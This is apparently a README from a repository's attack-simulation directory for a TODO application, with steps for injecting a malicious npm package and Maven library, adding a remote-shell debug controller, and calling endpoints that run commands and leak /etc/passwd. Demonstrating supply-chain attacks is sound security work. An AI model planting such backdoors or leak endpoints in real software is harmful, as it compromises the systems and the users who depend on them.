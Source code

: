 
# Attack Simulation Guide

This directory contains intentionally malicious code used to demonstrate several
ways an attacker could compromise the TODO application. Perform these steps on a
separate Git branch rather than `main` to avoid polluting the primary history.

## Attack Scenarios

1. **Malicious npm package injection** – infect the React client by installing
   the locally built `evil-package`.
2. **Malicious Maven library injection** – add the `evil-lib` JAR to the Spring
   Boot backend.
3. **Remote shell backdoor** – copy a debug controller that executes arbitrary
   commands.
4. **Password leak endpoint** – the same controller exposes an endpoint that
   returns `/etc/passwd`.

---

### 1. Malicious npm package injection

1. Build the package:
   ```bash
   cd evil-package
   npm pack
   ```
   This produces a `.tgz` archive under `evil-package/`.

2. Infect the client application:
   ```bash
   cd ../../todo-client
   npm install ../malicious/evil-package/evil-package-1.0.0.tgz
   ```
   The archive is added to `package-lock.json`, mimicking a compromised
   dependency tree.

### 2. Malicious Maven library injection

1. Build and install the library to the local Maven repository:
   ```bash
   cd evil-lib
   mvn install -DskipTests
   ```

2. Add the dependency to the backend:
   ```bash
   cd ../../todo-api
   mvn install:install-file \
       -DgroupId=com.malicious \
       -DartifactId=evil-lib \
       -Dversion=1.0.0 \
       -Dpackaging=jar \
       -Dfile=../malicious/evil-lib/target/evil-lib-1.0.0.jar
   # Then update pom.xml to reference com.malicious:evil-lib:1.0.0
   ```
   The manual step mimics an attacker injecting the dependency after the build
   has started.

### 3. Remote shell backdoor

1. Copy the malicious controller into the API:
   ```bash
   cd malicious
   cp debug-controller/src/main/java/com/example/demo/DebugController.java \
      ../todo-api/src/main/java/com/example/demo/DebugController.java
   cd ..
   ```

2. Rebuild the application so the new endpoint is active:
   ```bash
   cd ../todo-api
   ./mvnw package -DskipTests
   ```

3. Execute arbitrary commands:
   ```bash
   curl "http://<todo-api-service>/debug-shell?cmd=whoami"
   ```

### 4. Password leak endpoint

With the debug controller installed, this call exfiltrates the host's
`/etc/passwd` file:

```bash
curl "http://<todo-api-service>/leak"
```
